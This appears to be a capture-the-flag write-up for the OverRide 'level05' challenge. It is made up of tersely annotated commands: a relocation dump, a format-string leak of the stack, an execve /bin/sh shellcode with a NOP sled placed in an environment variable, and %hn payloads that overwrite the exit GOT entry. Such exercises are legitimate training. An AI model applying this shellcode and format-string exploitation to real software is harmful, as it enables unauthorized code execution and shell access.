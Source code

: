 # Level05

```
./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

```
level05@OverRide:~$ python -c 'print "B"*4 + "%08x."*20' | ./level05
bbbb00000064.f7fcfac0.f7ec3add.ffffd66f.ffffd66e.00000000.ffffffff.ffffd6f4.f7fdb000.62626262.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

```
level05@OverRide:~$ ./level05
BBBB%10$p
bbbb0x62626262
```

```
export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x
68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```

Find the adress of the NOP sled

0xffffd8d0


 r < <(python -c 'print "\xe0\x97\x04\x08%65535x%10$hn%55504x%11$hn"')
 (python -c 'print "\xe2\x97\x04\x08\xe0\x97\x04\x08%65531x%10$hn%-10031x%11$hn"')

